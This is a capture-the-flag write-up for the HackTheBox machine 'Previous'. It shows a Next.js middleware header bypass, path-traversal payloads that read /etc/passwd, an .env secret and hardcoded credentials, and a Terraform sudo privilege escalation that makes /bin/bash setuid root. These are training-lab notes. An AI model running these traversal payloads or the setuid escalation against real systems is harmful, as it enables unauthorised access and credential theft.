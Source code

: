 # Previous: HackTheBox

Difficulty: Medium (I'd say this was pretty easy).

---

## Enumeration

port 22,80 open with port 80 having hostname http://previous.htb/

/docs endpoint is vulnerable to [this exploit](https://github.com/MuhammadWaseem29/CVE-2025-29927-POC?tab=readme-ov-file#proof-of-concept-steps).

I used burpsuite's match and replace rules to add in the new exploit header. To do this, simply go to proxy settings and go to match and replace. Then add a new rule, and leave the match section blank. Place the exploit header in the replace section, and you should be able to get the exploit going.

Now I found an LFI in the /api/download?example=<filename> endpoint, by sending `../../../../../etc/passwd` I was able to recover this:
```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```
This is actually the docker container path so this doesn't contain any real users on the host system.

Environment variables from ../../../app/.env (I found the location of the app by reading /proc/self/environ)
```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

There are also useless lol.

Through a lot of ChatGPT, found this page  `../../../../app/.next/server/pages/api/auth/[...nextauth].js` which reveals some credentials.

Credentials: `jeremy:MyNameIsJeremyAndILovePancakes`

This gives us ssh access and user flag.

## Privilege Escalation

Running `sudo -l` gives this:

```bash
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply
```

<!-- Got the PE Vector from [this article](https://medium.com/@toshithh/proof-of-concept-terraform-privilege-escalation-cd3db69df90e). Ok this is literally the fucking writeup for this machine's PE lol, I didnt even notice until I read the whole thing. Luckily I didnt understand what he did here lol so I will explain what I did -->

See [this article](https://dollarboysushil.com/posts/Terraform-Sudo-Exploit-Privilege-Escalation/) to avoid spoilers.

So I changed up the exploit a little here so let me walk you through the steps:

1. First do 

```bash
cat /opt/examples/*.tf
```
This gives the provider name. (honestly it doesnt matter here)

2. In the /tmp directory, make a directory called privesc.
3. Run this:

```bash
cat > /tmp/privesc/terraform-provider-examples << 'EOF'
#!/bin/bash
chmod +s /bin/bash
EOF
```
4. Run this too

```bash
chmod +x /tmp/privesc/terraform-provider-examples
```
5. Run this again lol:

```bash
cat > /tmp/privesc/dollarboysushil.rc << 'EOF'
provider_installation {
  dev_overrides {
    "dollarboysushil.com/terraform/examples" = "/tmp/privesc"
  }
  direct {}
}
EOF
```

6. Run `export TF_CLI_CONFIG_FILE=/tmp/privesc/dollarboysushil.rc`

7. cd to `/opt/examples`

8. `sudo /usr/bin/terraform -chdir=/opt/examples apply`

9. `/bin/bash -p`

You should have a root shell.
